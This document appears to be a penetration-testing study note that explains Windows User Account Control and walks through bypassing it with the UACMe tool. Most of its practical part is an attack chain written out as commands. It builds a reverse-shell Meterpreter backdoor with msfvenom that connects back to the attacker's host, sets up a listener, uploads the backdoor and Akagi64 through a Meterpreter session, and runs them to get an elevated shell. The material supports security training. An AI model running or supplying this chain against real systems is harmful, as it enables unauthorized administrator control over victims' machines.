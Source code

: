 # Privilege Escalation: Bypassing UAC
> Bypassing UAC With UACMe

## Contents
- [Intro](#)
  - [User Account Control (UAC)](#)
  - [The Problem: UAC Pop-Up](#)
  - [Bypassing UAC](#)
  - [Tool: UACMe](#)
- [Practical: UACMe](#)
  - [Scenario](#)
  - [UACMe - Explanation](#)
  - [MSFVenom Payload](#)
  - [Set up a Listener](#)
  - [Meterpreter: On the Target](#)
  - [Bypass UAC & Execute Backdoor](#)

## Intro

### User Account Control (UAC)
- UAC is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt (admiun password), whereas a privileged user will be prompted with a consent prompt (image below).
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### The Problem: UAC Pop-Up
- The problem you run into is when you're running a remote shell or a meterpreter session on a target machine, and you try to run a program with elevated privileges.
- A dialog box will pop up on the target system system, but b/c you are on the command line, you won't see and won't have any way to acknowledge it.
- Therefore you need a way to bypass that.

### Bypassing UAC
- In order to successfully bypass UAC we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high. If the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting for user confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however the tool and technique used will depend on the version of Windows running on the target system.

### Tool: [UACMe](https://github.com/hfiref0x/UACME)
> Bypassing UAC With UACMe. Look over the README.md documentation.
- UACMe is an open-source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
- The UACMe GitHub repo contains a very well documented list of methods that can be used to bypass UAC on muiltiple versions of Windows ranging from Windows 7 to Window 11.
- It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repo has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.
- NOTE: When selecting a Key, you need to find one that shows "unfixed" in the version of Windows your target machine is running.

## Practical: UACMe

### Scenario
- Unprivileged meterpreter session from system exploit via MSF.
- You get a shell on the system, you enumerate, and try to change the administrator password:
```
sysinfo
# This gives you O/S info (very important)
# Meterpreter: x86/windows (32-bit)

pgrep explorer
# This searches for the explorer process number
# Note the number (process ID for the explorer.exe process)

migrate [pgrep number]
# This should give you a 64-bit meterpreter session

sysinfo
# Meterpreter: x64/windows; good to go

getuid
#You are logged on as "admin" (NOT "administrator"--different). Need priv esc.

getprivs
# Shows you the privileges assigned to the current user
# Indicates an "unprivileged" (non-administrator) account

shell
# Opens a shell session with the current user's creds
```
- In the shell:
```
> net user
  # Shows two accounts: admin and administrator (plus Guest)

> net localgroup administrators
  # Shows admin is part of the administrators group
  # This means that this user can execute with administrator privileges (BUT via UAC)

> net user admin password123
  # Just an example: try to set a new password for the admin account
  # Returns: "System error 5 has occurred. Access is denied."
  # That's UAC blocking the elevated priv. command
```

### UACMe - Explanation 

#### [Description](https://github.com/hfiref0x/UACME#uacme)
- Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor.

#### [Requirements](https://github.com/hfiref0x/UACME#system-requirements)
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account (account/user in the Administrators Group) with UAC set on default settings required.

#### [Usage](https://github.com/hfiref0x/UACME#usage)
- 32-Bit: `akagi32 [Key] [Param]`
- `64-Bit: akagi64 [Key] [Param]`
- The **_Key_** value can be obtained from the "Keys (click to expand/collapse)" just below the usage header.
- The **_Param_** value is an optional command (executable file name including full path) to run.
  - This second parameter can be empty
  - In this case the program will execute elevated cmd.exe from system32 folder.
- We are going to be using Key 23 (works best in this scenario).
  - `23. Author: Leo Davidson derivative`
  - Type: Dll Hijack
  - Method: IFileOperation
  - Target(s): \system32\pkgmgr.exe
  - Component(s): DismCore.dll
  - Implementation: ucmDismMethod
  - Works from: Windows 7 (7600)
  - Fixed in: unfixed
  - Code status: added in v2.5.1
- Run examples:
```
akagi32.exe 23
akagi64.exe 61
akagi32 23 c:\windows\system32\calc.exe
akagi64 61 c:\windows\system32\charmap.exe
```

**Note:** In real life you'll need to clone the repo and compile your own binaries ([see instructions](https://github.com/hfiref0x/UACME/tree/master#build) on the GitHub).

### MSFVenom Payload
- You need to create a payload with MSFVenom and then transfer that to the target system.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > backdoor.exe
```

### Set up a Listener
- You can use the MetaSploit handler:
```
> use multihandler
> set payload windows/meterpreter/reverse_tcp
> set LHOST [local ip]
> set LPORT 1234
> run
```

### Meterpreter: On the Target
- Go back into your meterpreter session and upload the UACMe binary and your backdoor.exe file.
```
> cd C:\\
> mkdir Temp
> cd Temp
> upload backdoor.exe
> upload tools/UACME/Akagi64.exe
> dir                             # should see both of those files
```

#### Problem
- If you tried to execute backdoor.exe to get your reverse shell, you could not because UAC would block it (confirmation pop-up).
- You need to BYPASS UAC FIRST, and that's what Akagi64.exe (with key 23) is for...

### Bypass UAC & Execute Backdoor
- Get a shell on the target via your meterpreter session
```
> .\Akagi64.exe 23 C:\\Temp\backdoor.exe
```
- This should bypass UAC and give you the reverse shell on your listener (with administrator privs).
